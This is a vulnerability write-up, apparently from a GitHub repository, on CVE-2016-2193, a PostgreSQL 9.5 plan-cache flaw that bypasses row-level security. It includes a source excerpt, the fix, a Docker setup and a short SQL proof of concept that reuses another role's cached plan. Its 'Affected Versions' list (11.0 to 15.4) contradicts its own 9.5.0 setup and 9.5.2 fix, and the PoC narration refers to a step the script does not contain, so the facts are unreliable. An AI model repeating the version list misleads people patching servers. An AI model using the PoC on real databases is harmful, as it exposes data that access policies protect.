


# CVE-2016-2193 CWE-254 PostgreSQL Access Control Bypass

## Vulnerability Background
- **PostgreSQL:** PostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- 

## Vulnerability Mechanism
PostgreSQL does not properly track the "current role and row-level secure (RLS) environment" in scheduled caching, causing the same session to reuse execution plans generated by other roles when switching users using `SET ROLE` or security defining functions, thereby applying incorrect RLS policy conditions, ultimately causing access control bypasses that allow low-privilege users to read or modify data that should not be visible.

## Vulnerability Location
Analysis of PostgreSQL 9.5.0 source code:

The src/backend/utils/cache/**plancache.c** file is the core implementation file of the PostgreSQL Plan Cache module, responsible for managing SQL query parsing and planned cache logic, improving SQL performance for repeated execution, and ensuring that cached plans can be properly disabled and rebuilt when facing structural or permission changes.

In line 551, the RevalidateCachedQuery function is used to revalidate the query and check if replanning is needed.

In plancache, it is checked whether the environment when the query was originally planned has changed. For example, when row-level security (RLS) is enabled, if the user identity targeted by the plan changes, replanning may be necessary because different strategies may be applied.

The row_security_env and planUserId parameters were initially set and used for inspection, but **they were not reset during replanning**. Therefore, in scenarios where roles change, replan, and then change again, the system does not replan again.

On line **579**, `GetUserId()` and `row_security_env` are set only when `planUserId` **not initialized**. If the session later calls `SET ROLE` to switch users, `planUserId` is already valid and will not be updated. At this point, the query plan is still considered to be generated by the old user, leading to **reusing the old RLS strategy**.

```c
// plancache.c file
// Line 551, RevalidateCachedQuery function
static List *RevalidateCachedQuery(CachedPlanSource *plansource)
{
	/*
     * If this is a new cached plan, then set the user id it was planned by
     * and under what row security settings; these are needed to determine
     * plan invalidation when RLS is involved.
     */
    // 579 lines
    if (!OidIsValid(plansource->planUserId))
    {
        plansource->planUserId = GetUserId();
        plansource->row_security_env = row_security;
    }
```

## Remediation

Upgrade to PostgreSQL 9.5.2 or later.
Improved the **query plan caching** mechanism to correctly update and track status information related to row-level security (such as `planUserId` and `row_security_env`) when roles change. Ensure that the Row-Level Safety (RLS) environment is properly handled during role transitions. Each checkout checks and updates `planUserId` and `row_security_env`.

```c
/*
	 * The plan is invalid, possibly due to row security, so we need to reset
	 * row_security_env and planUserId as we're about to re-plan with the
	 * current settings.
	 */
	plansource->row_security_env = row_security;
	plansource->planUserId = GetUserId();

```

## Affected Versions
**Affected version:** PostgreSQL:

-  11.0 to 11.21
-  12.0 to 12.16
-  13.0 to 13.12
-  14.0 to 14.9
-  15.0 to 15.4

## Environment Setup
Start the Docker environment, PostgreSQL version 9.5.0, administrator postgres, password postgres, database test already exists.

```txt
NIST:NVD   Base Score:7.5 HIGH   Vector:CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:9.5:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Use Postgres user identity to connect to the PostgreSQL database test in the container and run the PoC file.

In Step 6 `EXPLAIN` `Filter: ((a % 4) = 0)` still shows after switching back to `rls_regress_user1` (should have returned to `((a % 2) = 0)`).

```bash
docker exec -it postgres-9.5.0 psql -U postgres -d test -f CVE-2016-2193-PoC.sql
```



## PoC Analysis

```sql
-- Define two sets of RLS strategies
CREATE POLICY p1 ON t1 TO rls_regress_user1 USING ((a % 2) = 0);
CREATE POLICY p2 ON t1 TO rls_regress_user2 USING ((a % 4) = 0);

-- Open RLS
ALTER TABLE t1 ENABLE ROW LEVEL SECURITY;

-- Generate and cache the plan using user1
SET ROLE rls_regress_user1;
PREPARE role_inval AS SELECT * FROM t1;
EXPLAIN (COSTS OFF) EXECUTE role_inval;


-- Switch to user2 and check if there is a rescheduling
SET ROLE rls_regress_user2;
EXPLAIN (COSTS OFF) EXECUTE role_inval;  -- Should display Filter: ((a % 4) = 0)
 
```

After generating and caching the plan with user1, precompile the `SELECT * FROM t1` with `user1` to enter the **planned cache**. `EXPLAIN` is expected to show `Filter: ((a % 2) = 0)`, indicating that current plans are subject to `user1`'s RLS.

## References
[NVD - CVE-2016-2193](https://nvd.nist.gov/vuln/detail/CVE-2016-2193)

[Reset plan->row_security_env and planUserId · postgres/postgres@86ebf30](https://github.com/postgres/postgres/commit/86ebf30fd6d8964bbd5d48db053b0a7ff709a0d7#diff-fd57ecde9f67cd174c33dda1de40859ad9ebdc520c1af7a987e867e785661fee)
